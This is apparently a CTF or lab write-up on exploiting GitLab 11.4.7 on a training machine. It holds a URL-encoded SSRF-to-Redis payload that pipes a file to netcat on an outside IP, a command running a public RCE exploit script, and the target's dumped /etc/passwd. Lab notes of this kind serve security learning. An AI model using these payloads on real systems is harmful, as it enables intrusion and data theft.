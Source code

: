 The NetCat responded 

https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/

Accourding this article could be redis that can be attacked

git://[0:0:0:0:0:ffff:10.10.10.220]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20192%2E168%2E178%2E21%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git

I used this exploit https://github.com/ctrlsam/GitLab-11.4.7-RCE/blob/master/exploit.py saved in Documents



Register a user in gitlab

python ./GitLab-11.4.7-RCEPOC.py -u slyone@slyone.com -p Passw0rd -g http://10.10.10.220 -l 10.10.14.21 -P 1234



I was able to get the following - 


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
dude:x:1000:1000::/home/dude:/bin/bash


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)